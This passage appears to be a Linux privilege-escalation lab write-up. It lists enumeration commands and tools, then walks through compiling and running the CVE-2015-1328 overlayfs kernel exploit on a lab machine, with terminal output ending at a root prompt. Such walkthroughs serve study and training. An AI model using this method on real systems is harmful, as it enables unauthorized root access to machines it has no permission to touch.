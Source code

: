 ```bash
dpkg -l                        # Debian/Ubuntu installed packages
rpm -qa                        # RedHat/CentOS installed packages
lsmod                          # Kernel modules

```

1. **Automated Enumeration Tools**
- [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- [linuxprivchecker](https://github.com/linted/linuxprivchecker)

## Privilege Escalation: Kernel Exploits

The Kernel exploit methodology is simple;

1. Identify the kernel version
2. Search and find an exploit code for the kernel version of the target system
3. Run the exploit
- Note that a failed kernel exploit can lead to a system crash

```bash
$ whoami
karen
$ id
uid=1001(karen) gid=1001(karen) groups=1001(karen)
$ uname -r
3.13.0-24-generic
$ cat /proc/version
Linux version 3.13.0-24-generic (buildd@panlong) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014

```

The Linux kernel version is **3.13.0-24-generic**, the vulnerability that can affect the kernel of the target system is -> [CVE-2015-1328](https://www.exploit-db.com/exploits/37292)

Download the exploitable onto your machine and compile it. When I first compiled it, it returned a missing header error, so I added these two headers to the code:

```c
#define _GNU_SOURCE     // Required for clone() and unshare()
#include <sys/wait.h>   // For wait(), waitpid()

```

```bash
─$ gcc -static ofs.c -o of
```

On the target machine, transfer the exploiter to `/tmp` folder so we can write our permission, then execute it.

```bash
$ cd /tmp
$ ls -l ofs
-rw-rw-r-- 1 karen karen 780000 Jul 16 15:03 ofs
$ chmod +x ofs
$ ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
```